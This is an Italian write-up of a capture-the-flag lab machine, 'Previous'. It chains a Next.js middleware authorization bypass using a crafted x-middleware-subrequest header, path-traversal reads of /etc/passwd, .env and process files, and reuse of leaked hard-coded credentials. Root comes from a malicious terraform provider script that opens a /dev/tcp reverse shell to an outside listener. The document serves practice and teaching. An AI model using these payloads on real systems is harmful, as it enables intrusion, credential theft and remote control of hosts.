





# Previous


Target: 10.x.x.x

## Recon

Si utilizza **nmap** per enumerare le porte aperte della macchina Target.

```bash
$ nmap -p- --min-rate 1000 10.129.132.218
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 21.32 seconds

```

```bash

$ nmap -sCV -p22,80 10.129.132.218                                                   
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://previous.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

La macchina Target ha i seguenti servizi attivi:

- **OpenSSH v8.9p1** sulla porta 22.
- **Nginx v1.18.0** sulla porta 80.

Si aggiorna il file `/etc/hosts` aggiungendo un record per associare l'indirizzo IP della macchina Target con `previous.htb`.

```bash

$ echo '10.129.132.218 previous.htb' | sudo tee -a /etc/hosts

```

Si visita l'URL `http://previous.htb`.



In primo piano ci sono le funzionalita' di **Get Started** e **Docs** reindirizzano verso l'URL `http://previous.htb/api/auth/signin?callbackUrl=%2Fdocs`.



Inoltre, e' presente anche la funzionalita' **Contact** con `mailto:jeremy@previous.htb`.

Si utilizza **Wappalyzer** per capire cosa c'e' dietro questa applicazione web.



> Next.js is a React framework for developing single page Javascript applications. [https://nextjs.org/](https://nextjs.org/)

## CVE-

> Next.js is a React framework for building full-stack web applications. Starting in version 1.11.4 and prior to versions 12.3.5, 13.5.9, 14.2.25, and 15.2.3, it is possible to bypass authorization checks within a Next.js application, if the authorization check occurs in middleware. If patching to a safe version is infeasible, it is recommend that you prevent external user requests which contain the x-middleware-subrequest header from reaching your Next.js application. This vulnerability is fixed in 12.3.5, 13.5.9, 14.2.25, and 15.2.3.
> Source: [https://nvd.nist.gov/vuln/detail/CVE-2025-29927](https://nvd.nist.gov/vuln/detail/CVE-2025-29927)

> In Next.js, middleware is a way to run code before a request is completed, typically for purposes like authentication, logging, redirects, or modifying the response. 
> Source: [https://medium.com/@turingvang/nextjs-middleware-example-df6ff2c9788b](https://medium.com/@turingvang/nextjs-middleware-example-df6ff2c9788b)

> How it works? [https://strobes.co/blog/understanding-next-js-vulnerability/](https://strobes.co/blog/understanding-next-js-vulnerability/)

### Authentication Bypass

Si utilizza **Burpsuite** per intercettare e modificare le richieste HTTP aggiugengo nell'**Header**:

```text

x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware

```



`/docs/getting-started`



`/docs/examples`


Nella pagina `/docs/example` e' presente un link per il download di contenuto da `http://previous.htb/api/download?example=hello-world.ts`.

Si scarica il file `hello-world.ts` ma non contiene nulla di interessante.

## Local File Inclusion

Dato che l'URL `/api/download?example=hello-world.ts` permette di accedere ad un file, questo fa pensare alla possibilita' di sfruttare questo endpoint per accedere a file arbitrari. 
 
`/etc/passwd`

```bash

$ curl --path-as-is -i -s -k -X $'GET' -H $'Host: previous.htb' -H $'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' -H $'Priority: u=0' $'http://previous.htb/api/download?example=../../../etc/passwd'

HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 05 Sep 2025 17:52:46 GMT
Content-Type: application/zip
Content-Length: 787
Connection: keep-alive
Content-Disposition: attachment; filename=../../../../etc/passwd
ETag: "41amqg1v4m26j"

root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin

```

L'utente `node` ha accesso alla shell.

```bash

$ curl --path-as-is -i -s -k -X $'GET' -H $'Host: previous.htb' -H $'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' -H $'Priority: u=0' $'http://previous.htb/api/download?example=cmd' | tr '\0' ' '

```

> **.env** file contains the environment variables.

`../../.env`

```text

NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a

```

`../../package.json`

```text

{
  "private": true,
  "scripts": {
    "dev": "next dev",
    "build": "next build"
  },
  "dependencies": {
    "@mdx-js/loader": "^3.1.0",
    "@mdx-js/react": "^3.1.0",
    "@next/mdx": "^15.3.0",
    "@tailwindcss/postcss": "^4.1.3",
    "@tailwindcss/typography": "^0.5.16",
    "@types/mdx": "^2.0.13",
    "next": "^15.2.2",
    "next-auth": "^4.24.11",
    "postcss": "^8.5.3",
    "react": "^18.2.0",
    "react-dom": "^18.2.0",
    "tailwindcss": "^4.1.3"
  },
  "devDependencies": {
    "@types/node": "22.14.0",
    "@types/react": "19.1.0",
    "typescript": "5.8.3"
  }
}

```

`../../../proc/self/status`

```text

Name:   next-server
Pid: 1
...

```

`../../../proc/1/environ`

```text

NODE_VERSION=18.20.8
HOSTNAME=0.0.0.0
YARN_VERSION=1.22.22
SHLVL=1PORT=3000
HOME=/home/nextjs
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NEXT_TELEMETRY_DISABLED=1
PWD=/app
NODE_ENV=production

```

Sempre con la **LFI** si e' verificato che `../../../app/.env`.

`../../../app/.next/build-manifest.json` Lists all the files your app uses.

`../../../app/.next/required-server-files.json`

`../../../app/.next/server/pages-manifest.json`

`../../../app/.next/server/pages/api/auth/%5B...nextauth%5D.js`

```text

"use strict";
(() => {
    var e = {};
    e.id = 651, e.ids = [651], e.modules = {
        3480: (e, n, r) => {
            e.exports = r(5600)
        },
        5600: e => {
            e.exports = require("next/dist/compiled/next-server/pages-api.runtime.prod.js")
        },
        6435: (e, n) => {
            Object.defineProperty(n, "M", {
                enumerable: !0,
                get: function () {
                    return function e(n, r) {
                        return r in n ? n[r] : "then" in n && "function" == typeof n.then ? n.then(n => e(n, r)) : "function" == typeof n && "default" === r ? n : void 0
                    }
                }
            })
        },
        8667: (e, n) => {
            Object.defineProperty(n, "A", {
                enumerable: !0,
                get: function () {
                    return r
                }
            });
            var r = function (e) {
                return e.PAGES = "PAGES", e.PAGES_API = "PAGES_API", e.APP_PAGE = "APP_PAGE", e.APP_ROUTE = "APP_ROUTE", e.IMAGE = "IMAGE", e
            }({})
        },
        9832: (e, n, r) => {
            r.r(n), r.d(n, {
                config: () => l,
                default: () => P,
                routeModule: () => A
            });
            var t = {};
            r.r(t), r.d(t, {
                default: () => p
            });
            var a = r(3480),
                s = r(8667),
                i = r(6435);
            let u = require("next-auth/providers/credentials"),
                o = {
                    session: {
                        strategy: "jwt"
                    },
                    providers: [r.n(u)()({
                        name: "Credentials",
                        credentials: {
                            username: {
                                label: "User",
                                type: "username"
                            },
                            password: {
                                label: "Password",
                                type: "password"
                            }
                        },
                        authorize: async e => e?.username === "jeremy" && e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes") ? {
                            id: "1",
                            name: "Jeremy"
                        } : null
                    })],
                    pages: {
                        signIn: "/signin"
                    },
                    secret: process.env.NEXTAUTH_SECRET
                },
                d = require("next-auth"),
                p = r.n(d)()(o),
                P = (0, i.M)(t, "default"),
                l = (0, i.M)(t, "config"),
                A = new a.PagesAPIRouteModule({
                    definition: {
                        kind: s.A.PAGES_API,
                        page: "/api/auth/[...nextauth]",
                        pathname: "/api/auth/[...nextauth]",
                        bundlePath: "",
                        filename: ""
                    },
                    userland: t
                })
        }
    };
    var n = require("../../../webpack-api-runtime.js");
    n.C(e);
    var r = n(n.s = 9832);
    module.exports = r
})();

```

Perche' funziona? [https://nextjs.org/docs/pages/building-your-application/routing/dynamic-routes](https://nextjs.org/docs/pages/building-your-application/routing/dynamic-routes)

Si e' utilizzato [https://lelinhtinh.github.io/de4js/](https://lelinhtinh.github.io/de4js/).

Si trovano le credenziali:

- `jeremy:MyNameIsJeremyAndILovePancakes`

## Shell

```bash

$ ssh jeremy@10.x.x.x

```

```bash

$ jeremy@previous:~$ ls
docker  user.txt

$ jeremy@previous:~$ cat user.txt 
cb7bbb2388293baf940d1a47af262ea8

```

## Priv Escalation

```bash

jeremy@previous:~$ sudo -l
Matching Defaults entries for jeremy on previous:
    !env_reset, env_delete+=PATH, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jeremy may run the following commands on previous:
    (root) /usr/bin/terraform -chdir\=/opt/examples apply

```

`.terraformrc`

```text

provider_installation {
        dev_overrides {
                "previous.htb/terraform/examples" = "/usr/local/go/bin"
        }
        direct {}
}

```

```bash

jeremy@previous:~$ cat .terraformrc 
provider_installation {
        dev_overrides {
                "previous.htb/terraform/examples" = "/tmp/.privesc"
        }
        direct {}
}

jeremy@previous:~$ cat /tmp/.privesc/terraform-provider-examples 
#!/bin/bash
sudo /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.28/9000 0>&1'


jeremy@previous:~$ sudo TF_CLI_CONFIG_FILE='/home/jeremy/.terraformrc' /usr/bin/terraform -chdir\=/opt/examples apply

```

```bash

$ nc -lvnp 9000

root@previous:/opt/examples# ls /root
clean
examples
go
root.txt

root@previous:~# cat /root/root.txt
cat /root/root.txt
7be35214095264b2025a9286a368eeb4

```


## LFI + RCE

> The `/proc/self/` directory is a link to the currently running process.
> 
> The `/proc/` filesystem in Linux is a virtual filesystem exposing kernel and process information.
>   * `/proc/self/` is a symbolic shortcut that refers to the currently executing process — typically, in a web context, the PHP-FPM or Apache/Nginx worker process.
>
> /proc/self/environ      → Environment variables  
> /proc/self/fd/0         → stdin (standard input)
> /proc/self/fd/1         → stdout
> /proc/self/fd/2         → stderr
> /proc/self/fd/X         → Any other open file descriptor


---


